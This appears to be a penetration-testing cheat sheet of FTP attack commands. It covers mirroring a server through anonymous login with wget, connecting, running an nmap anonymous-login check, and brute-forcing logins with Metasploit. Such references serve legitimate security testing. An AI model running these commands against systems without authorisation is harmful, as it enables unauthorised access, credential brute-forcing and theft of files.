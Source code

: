 # FTP

% ftp, 21
#plateform/linux  #target/remote  #port/21 #protocol/ftp 

## ftp - download all 
#cat/ATTACK/FILE_TRANSFERT 
```
wget -m ftp://anonymous:anonymous@<ip>
```

## ftp download all (2)
#cat/ATTACK/FILE_TRANSFERT
```
wget -m --no-passive ftp://anonymous:anonymous@<ip>
```

## ftp - connect
#cat/ATTACK/CONNECT
```
ftp <ip>
```

## ftp - connect port
#cat/ATTACK/CONNECT
```
ftp <ip> <port>
```

## ftp - enum anonym
#cat/ATTACK/CONNECT
```
nmap -v -p 21 --script=ftp-anon.nse <ip>
```

## ftp - msf bruteforce login
#cat/ATTACK/BRUTEFORCE-SPRAY
```
msfconsole -x "use auxiliary/scanner/ftp/ftp_login; set RHOSTS <ip>; set USER_FILE <user_file>; set PASS_FILE <password_file>; exploit"
```

